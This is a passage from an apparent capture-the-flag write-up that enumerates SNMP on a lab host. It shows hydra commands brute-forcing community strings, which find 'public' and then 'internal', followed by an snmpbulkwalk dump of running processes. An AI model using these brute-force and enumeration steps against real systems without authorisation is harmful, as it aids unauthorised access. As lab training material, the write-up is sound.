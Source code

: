 [Simple Network Management Protocol (SNMP)](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol) was open. I tried scanning it with multiple tools. But I did not find anything of interest.

I used hydra to scan for other community strings. But it kept on finding only 'public'.

```bash
$ hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.htb snmp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-25 19:48:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 118 login tries (l:1/p:118), ~8 tries per task
[DATA] attacking snmp://target.htb:161/
[161][snmp] host: target.htb   password: public
[STATUS] attack finished for target.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-25 19:48:34
```

Eventually, I realized that it was ending too quickly. I was not giving it the `-f` parameter, so I did not think it was supposed to stop after it found the first match, but it did.

I moved 'public at the end of my wordlist and tried again with SNMP versions 1 and 2.

```bash
$ hydra -P /usr/share/seclists/Discovery/SNMP/snmp.txt target.htb snmp -m '2'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-26 11:11:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3217 login tries (l:1/p:3217), ~202 tries per task
[DATA] attacking snmp://target.htb:161/2
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 3089 to do in 00:25h, 16 active
[STATUS] 122.67 tries/min, 368 tries in 00:03h, 2849 to do in 00:24h, 16 active
[STATUS] 121.00 tries/min, 847 tries in 00:07h, 2370 to do in 00:20h, 16 active
        [161][snmp] host: target.htb   password: internal
[STATUS] attack finished for target.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-26 11:23:28
```

It found 'internal'. I scanned this.

```bash

$ snmpbulkwalk -v 2c -c internal target . > snmp.txt

...

HOST-RESOURCES-MIB::hrSWRunParameters.1991 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 81 -container-ip 172.22.0.2 -container-port 80"¬
HOST-RESOURCES-MIB::hrSWRunParameters.2006 = STRING: "-namespace moby -id 42602c871adeb563d57151cd342480f8a7f3cd30928eef2b1bee26105a2cec4f -address /run/containerd/containerd.sock"¬
HOST-RESOURCES-MIB::hrSWRunParameters.2026 = STRING: "main.py"¬
HOST-RESOURCES-MIB::hrSWRunParameters.2044 = STRING: "-c from multiprocessing.semaphore_tracker import main;main(4)"¬
HOST-RESOURCES-MIB::hrSWRunParameters.2045 = STRING: "-c from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7) --multiprocessing-fork"¬
HOST-RESOURCES-MIB::hrSWRunParameters.2085 = ""¬
HOST-RESOURCES-MIB::hrSWRunParameters.2087 = ""¬
HOST-RESOURCES-MIB::hrSWRunParameters.2112 = STRING: "/usr/local/bin/login.py REDACTED"¬
HOST-RESOURCES-MIB::hrSWRunParameters.2279 = ""¬
HOST-RESOURCES-MIB::hrSWRunParameters.2347 = ""¬
HOST-RESOURCES-MIB::hrSWRunParameters.2348 = ""¬
```